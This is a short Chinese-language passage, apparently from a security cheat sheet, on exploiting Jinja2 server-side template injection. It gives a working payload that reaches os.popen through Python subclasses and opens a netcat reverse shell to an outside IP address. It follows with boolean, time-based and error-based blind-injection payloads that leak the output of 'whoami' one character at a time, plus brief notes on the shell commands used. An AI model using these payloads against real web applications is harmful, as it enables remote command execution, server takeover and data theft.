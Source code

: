 反弹shell：

*[这里](#反弹shell)

```
{% for subclass in dict.mro()[-1].__subclasses__()%}
    {% if subclass.__name__ == '_wrap_close' %}
        {% set a = subclass.__init__.__globals__.popen("netcat 192.168.159.128 5478 -e /bin/bash") %}
    {% endif %}
 {% endfor %}
```

盲注：

布尔盲注

```
{% if dict.mro()[-1].__subclasses__()[134].__init__.__globals__.popen('whoami').read()[0] == "a" %}a{% endif %}
{% if dict.mro()[-1].__subclasses__()[134].__init__.__globals__.popen('whoami').read()[0] == "b" %}b{% endif %}
{% if dict.mro()[-1].__subclasses__()[134].__init__.__globals__.popen('whoami').read()[0] == "d" %}d{% endif %}
# 输出d 说明第一个字符是d
```

时间盲注

```
{% if dict.mro()[-1].__subclasses__()[133].__init__.__globals__.system('sleep $(whoami | cut -c 1 | tr a 2)') %}{% endif %}
{% if dict.mro()[-1].__subclasses__()[133].__init__.__globals__.system('sleep $(whoami | cut -c 1 | tr b 2)') %}{% endif %}
...
{% if dict.mro()[-1].__subclasses__()[133].__init__.__globals__.system('sleep $(whoami | cut -c 1 | tr s 2)') %}{% endif %}
# 延时 2s 说明第一个字符是 s
```

>1. `cut -c 1`: `cut` 是一个文本处理工具，`-c` 选项用于按字符进行切割。这里 `-c 1` 表示只取每行的第一个字符。
>2. `tr a 1`: `tr` 是另一个文本处理工具，用于字符替换。`a` 被替换成 `2`，意味着如果用户名的首字母是小写字母 `a`，那么它会被替换成数字 `2`。
>3. `sleep $(...)`: 这是 `sleep` 命令，用于让程序休眠一段时间。`$()` 是命令替换的语法，它会先执行括号中的命令，然后将结果作为参数传递给 `sleep` 命令。在这里，`sleep` 命令将等待的时间设置为之前处理后的结果。

甚至可以搞基于报错的盲注：

```
{% for i in [1][(dict.mro()[-1].__subclasses__()[133].__init__.__globals__.popen('whoami').read()[0] == "a")|int] %}{% endfor %}

{% for i in [1][(dict.mro()[-1].__subclasses__()[133].__init__.__globals__.popen('whoami').read()[0] == "s")|int] %}{% endfor %}
# 不报错说明第一个字符是 s
```

因为对于 jinja2 来说，索引过大是返回 Undefined，不会报错。
